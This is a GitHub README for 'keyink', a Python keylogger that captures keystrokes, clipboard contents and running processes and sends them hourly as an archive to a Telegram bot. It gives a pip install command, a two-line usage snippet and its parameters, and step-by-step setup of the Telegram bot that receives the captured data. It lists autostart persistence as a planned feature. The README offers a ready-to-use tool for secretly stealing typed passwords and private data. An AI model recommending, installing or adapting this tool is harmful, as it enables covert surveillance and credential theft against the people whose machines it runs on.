 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

The keylogger in just 2 lines. Sending to Telegram.

## Description
`keyink` is just starting its development. Its functionality will be expanded in the future.

## Navigation
* [Current features](#Сurrent-features)
* [Future features](#Future-features)
* [Installation](#Installation)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
* [Telegram bot setup](#Telegram-bot-setup)
  * [Getting token](#Getting-token)
  * [Getting id](#Getting-id)

### Current features
1. Logging of keyboard, clipboard, running processes.
2. Sending collected data as an archive to Telegram.
3. Running in a separate thread.

### Future features
1. Adding other loggers.
2. Adding to the system autostart.
 
## Installation

You can install the latest version with the command:
```
pip install lgink==0.0.1
```

## Example usage
### Standard
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
The standard ```Logger``` launches all available loggers and sends the collected data as an archive to you in Telegram every hour.

Transmitted parameters:
* `token` - bot's Telegram token.
* `user_id` - your Telegram id.
* `keyboard` - add keyboard logger (True/False).
* `clipboard` - add a clipboard logger (True/False).
* `processes` - add process logger (True/False).
* `special_keys` - add special keys Enter, Shift, Alt etc. to logs (True/False).
* `pause_iteration` - check frequency of running processes in seconds.
* `sleep` - frequency of sending collected logs in seconds.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Write the name of the bot, then the nickname with the attribute ```_bot``` at the end.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Insert the resulting token into the ```YOUR_TOKEN``` field in the script.

### Getting id
1. Open a chat with [Get My ID](https://t.me/getmyid_bot).
2. Write the command ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Insert the resulting ID into the ```YOUR_ID``` field in the script.
